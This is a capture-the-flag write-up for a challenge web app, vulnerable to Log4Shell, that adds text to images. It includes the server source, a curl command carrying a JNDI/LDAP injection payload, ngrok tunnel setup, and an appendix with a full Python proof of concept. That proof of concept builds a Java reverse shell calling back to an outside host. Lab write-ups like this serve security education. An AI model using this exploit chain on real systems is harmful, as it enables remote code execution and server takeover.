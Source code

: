 # 🧑‍🎨 Text Polyfill (Score: 320 / Solves: 18)

## Description

> We feel your pain. You love to generate art with AI, but hate the fact it can't put simple text on your pictures. Well... Fear no more. Our simple website allows to add any text to your AI generated images without a hassle. Enjoy!
>
> <https://text-polyfill-982935551e3a.1753ctf.com/>
>
> <https://dl.1753ctf.com/text-polyfill/?s=DxzafMfy>

## Source Code

<details><summary>file tree</summary>

```console
$ unzip -d text-polyfill -q text-polyfill_.zip; text-polyfill

$ tree .
.
├── Dockerfile
├── pom.xml
└── src
    ├── main
    │   └── java
    │       └── com
    │           └── ctf
    │               └── ImageTextServer.java
    └── root
        ├── index.html
        └── logo.png

7 directories, 5 files
```

</details>

<details><summary>pom.xml</summary>

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<groupId>com.ctf</groupId>
<artifactId>webapp</artifactId>
<version>1.0</version>
<packaging>war</packaging>
   <dependencies>
       <dependency>
           <groupId>javax.servlet</groupId>
           <artifactId>javax.servlet-api</artifactId>
           <version>4.0.1</version>
           <scope>provided</scope> 
       </dependency>
       <dependency>
           <groupId>org.apache.logging.log4j</groupId>
           <artifactId>log4j-core</artifactId>
           <version>2.14.1</version>
       </dependency>
       <dependency>
           <groupId>org.apache.logging.log4j</groupId>
           <artifactId>log4j-api</artifactId>
           <version>2.14.1</version>
       </dependency>
   </dependencies>
   <build>
    <resources>
        <resource>
            <directory>src/root</directory>
            <targetPath>../../</targetPath>
        </resource>
    </resources>
   </build>
</project>
```

</details>

<details><summary>ImageTextServer.java</summary>

```java
package com.ctf;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import javax.imageio.ImageIO;
import javax.servlet.ServletException;
import javax.servlet.annotation.MultipartConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.Part;
import java.awt.*;
import java.awt.image.BufferedImage;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.nio.file.Files;
import java.util.UUID;

@WebServlet("/")
@MultipartConfig
public class ImageTextServer extends HttpServlet {

    private static Logger logger;
    private static String flag;

    public ImageTextServer() {
        logger = LogManager.getLogger(ImageTextServer.class.getName());
        flag = System.getenv("flag");
    }

    protected void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {

        if (request.getRequestURI().equals("/")) {
            response.setContentType("text/html");
            File file = new File("index.html");
            response.setStatus(HttpServletResponse.SC_OK);
            Files.copy(file.toPath(), response.getOutputStream());
        } else if (request.getRequestURI().equals("/logo.png")) {
            response.setContentType("text/html");
            File file = new File("logo.png");
            response.setStatus(HttpServletResponse.SC_OK);
            Files.copy(file.toPath(), response.getOutputStream());
        } else {
            response.setStatus(HttpServletResponse.SC_NOT_FOUND);
        }

    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
        if (request.getRequestURI().equals("/process")) {
            Part filePart = request.getPart("image");
            String text = request.getParameter("text");
            try (InputStream fileContent = filePart.getInputStream()) {
                String filename = "/tmp/" + UUID.randomUUID().toString() + ".jpg";

                FileOutputStream fos = new FileOutputStream(filename);
                byte[] buffer = new byte[1024];
                int length;
                while ((length = fileContent.read(buffer)) > 0) {
                    fos.write(buffer, 0, length);
                }
                fos.close();

                File file = new File(filename);

                BufferedImage image = ImageIO.read(file);
                if (image == null) {
                    throw new IOException("Failed to decode image.");
                }
                Graphics graphics = image.getGraphics();
                graphics.setFont(new Font("Arial", Font.BOLD, 30));
                graphics.setColor(Color.BLACK);
                graphics.drawString(text, 10, image.getHeight() - 10);
                graphics.dispose();

                response.setContentType("image/png");
                ImageIO.write(image, "PNG", response.getOutputStream());
            } catch (IOException e) {
                response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
            } catch (Exception e) {
                logger.error("Error processing image with text: " + text);
                response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
            }
        } else {
            response.setStatus(HttpServletResponse.SC_NOT_FOUND);
        }
    }
}
```

</details>

## Flag

1753c{generate_text_to_get_an_epic_rce}

## Summary

- RCE Log4Shell CVE-2021-44228
- To throw exception and execute `logger.error("..." + text);`, remove boundary chars

## Initial Analysis

ImageTextServer.java

```java
@WebServlet("/")
@MultipartConfig
public class ImageTextServer extends HttpServlet {

    private static Logger logger;
    private static String flag;

    public ImageTextServer() {
        logger = LogManager.getLogger(ImageTextServer.class.getName());
        flag = System.getenv("flag");
    }
```

It seems the flag is stored in an environment variable.

pom.xml

```xml
       <dependency>
           <groupId>org.apache.logging.log4j</groupId>
           <artifactId>log4j-core</artifactId>
           <version>2.14.1</version>
       </dependency>
```

[Maven Repository: org.apache.logging.log4j » log4j-core » 2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1)

> ![log4j_vuln.png](img/log4j_vuln.png)

This application uses Apache Log4j Core 2.14.1, which is vulnerable to [CVE-2021-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228), Log4Shell.

ImageTextServer.java

```java
    protected void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
        if (request.getRequestURI().equals("/process")) {
            Part filePart = request.getPart("image");
            String text = request.getParameter("text");
            try (InputStream fileContent = filePart.getInputStream()) {
                String filename = "/tmp/" + UUID.randomUUID().toString() + ".jpg";

                FileOutputStream fos = new FileOutputStream(filename);
                byte[] buffer = new byte[1024];
                int length;
                while ((length = fileContent.read(buffer)) > 0) {
                    fos.write(buffer, 0, length);
                }
                fos.close();

                File file = new File(filename);

                BufferedImage image = ImageIO.read(file);
                if (image == null) {
                    throw new IOException("Failed to decode image.");
                }
                Graphics graphics = image.getGraphics();
                graphics.setFont(new Font("Arial", Font.BOLD, 30));
                graphics.setColor(Color.BLACK);
                graphics.drawString(text, 10, image.getHeight() - 10);
                graphics.dispose();

                response.setContentType("image/png");
                ImageIO.write(image, "PNG", response.getOutputStream());
            } catch (IOException e) {
                response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
            } catch (Exception e) {
                logger.error("Error processing image with text: " + text);  // vulnerable!
                response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
            }
```

When an Exception other than IOException is thrown, `logger.error` is called, and user-controllable text is passed as an argument.
Through trial and error, I discovered that by removing one or more characters after `name="text"` in the request body's boundary, an Exception is thrown upon execution of the request.

I used [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc/tree/main) for Exploit Code.
Due to the use of Ngrok, several changes were made to the code.

## Solution

1. Ngrok
    - ngrok.yml

      ```yaml
      version: "2"
      authtoken: <your token>
      tunnels:
        web:
          proto: tcp
          addr: 8000
        ldap:
          proto: tcp
          addr: 1389
        revshell:
          proto: tcp
          addr: 8888
      ```

    - start Ngrok

      ```bash
      ngrok start --config ngrok.yml --all
      ```

1. PoC

    ```bash
    git clone --quiet https://github.com/kozmer/log4j-shell-poc.git; cd log4j-shell-poc
    # download jdk-8u20-linux-x64.tar.gz and extract
    vi poc.py  # modify (see below Appendix)
    python3 poc.py  # start
    ```

1. Generate image

    ```bash
    convert -size 1x1 xc:white test.png
    ```

1. Send a request to capture Burp Proxy

    ```bash
    curl -k https://text-polyfill-982935551e3a.1753ctf.com/process \
        -F $'text=${jndi:ldap://0.tcp.jp.ngrok.io:13565/a}' -F image=@test.png \
        --proxy http://127.0.0.1:8080
    ```

1. Send the request captured by Burp Proxy to Burp Repeater
1. Remove one or more character from the Content-Type boundary and send the request

    ![send_payload.png](img/send_payload.png)

1. Got shell!

    ![revshell.png](img/revshell.png)

## References

- [CVE Record \| CVE](https://www.cve.org/CVERecord?id=CVE-2021-44228)
- [Log4Shell - Wikipedia](https://en.wikipedia.org/wiki/Log4Shell)
- [kozmer/log4j-shell-poc: A Proof-Of-Concept for the CVE-2021-44228 vulnerability.](https://github.com/kozmer/log4j-shell-poc/tree/main)

## Appendix

<details><summary>Modified PoC</summary>

```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


LDAP_PORT = 1389
WEB_PORT = 8000

# change this according to your Ngrok's listen host and port
NGROK_HOST = "0.tcp.jp.ngrok.io"
LDAP_NGROK_PORT = 13565
WEB_NGROK_PORT = 13519
REVSHELL_NGROK_PORT = 12766


def generate_payload() -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (
        NGROK_HOST,
        REVSHELL_NGROK_PORT,
    )

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f"[-] Something went wrong {e}")
        raise e
    else:
        print(Fore.GREEN + "[+] Exploit java class created success")


def payload() -> None:
    generate_payload()

    print(Fore.GREEN + "[+] Setting up LDAP server\n")

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server)
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver http://0.0.0.0:{WEB_PORT}")
    httpd = HTTPServer(("0.0.0.0", WEB_PORT), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call(
        [
            os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
            "-version",
        ],
        stderr=subprocess.DEVNULL,
        stdout=subprocess.DEVNULL,
    )
    return exit_code == 0


def ldap_server() -> None:
    sendme = "${jndi:ldap://%s:%s/a}" % (NGROK_HOST, LDAP_NGROK_PORT)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(NGROK_HOST, WEB_NGROK_PORT)
    subprocess.run(
        [
            os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
            "-cp",
            os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
            "marshalsec.jndi.LDAPRefServer",
            url,
        ]
    )


def main() -> None:
    init(autoreset=True)
    print(
        Fore.BLUE
        + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
"""
    )

    try:
        if not check_java():
            print(Fore.RED + "[-] Java is not installed inside the repository")
            raise SystemExit(1)
        payload()
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```

</details>
